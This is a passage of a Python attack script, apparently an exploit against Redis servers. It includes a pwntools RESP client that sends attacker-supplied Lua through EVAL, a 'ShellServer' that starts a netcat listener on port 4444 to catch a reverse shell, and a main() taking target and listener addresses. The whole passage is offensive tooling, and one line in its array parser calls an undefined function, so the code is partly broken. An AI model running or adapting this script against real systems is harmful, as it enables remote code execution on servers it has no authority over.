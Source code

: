 ```python
            return f"${len(data)}\r\n{data}\r\n".encode()
        elif isinstance(data, bytes):
            return f"${len(data)}\r\n".encode() + data + b"\r\n"
        elif isinstance(data, list):
            return f"*{len(data)}\r\n".encode() + b''.join([self.prepare(elm) for elm in data])
        elif data is None:
            return b"$-1\r\n"
        else:
            raise ValueError(f"Non-RESP type: {type(data)}")

    def cmd(self, argv):
        self.conn = pwn.remote(self.host, self.port)
        self.conn.send(self.prepare(argv))
        #self.conn.interactive()
        return self.recv()

    def recv(self):
        t = self.conn.recv(1)
        if t == b'+' or t == b'-':
            return self.conn.recvuntil(b"\r\n")[:-2]
        elif t == b':':
            return int(self.conn.recvuntil(b"\r\n")[:-2])
        elif t == b'$':
            s = int(self.conn.recvuntil(b"\r\n")[:-2])
            if s == -1:
                return None
            d = self.conn.recv(s)
            self.conn.recvuntil(b"\r\n")
            return d
        elif t == b'*':
            s = int(self.conn.recvuntil(b"\r\n")[:-2])
            return [redis_recv(sock) for i in range(s)]
        else:
            raise ValueError(f"What is this? {t}")

    def GET(self, key):
        return self.cmd(["GET", key])

    def EVAL(self, script):
        return self.cmd(["EVAL", script, "0"])

class ShellServer:
    def __init__(self, lport=4444, lhost='0.0.0.0'):
        self.lhost = lhost
        self.lport = lport

    def run(self):
        #l = pwn.listen(self.lport, self.lhost)
        #target = l.wait_for_connection()
        #target.interactive()
        subprocess.run(["nc", "-lnvp", str(self.lport)])

def main():

    if len(sys.argv) != 6:
        print(f"USAGE: python {sys.argv[0]} redis_host redis_port listen_host listen_port script_file")
        sys.exit(-1)

    redis_host, redis_port, lhost, lport, lua_script = sys.argv[1:]
    

    debug = False
```
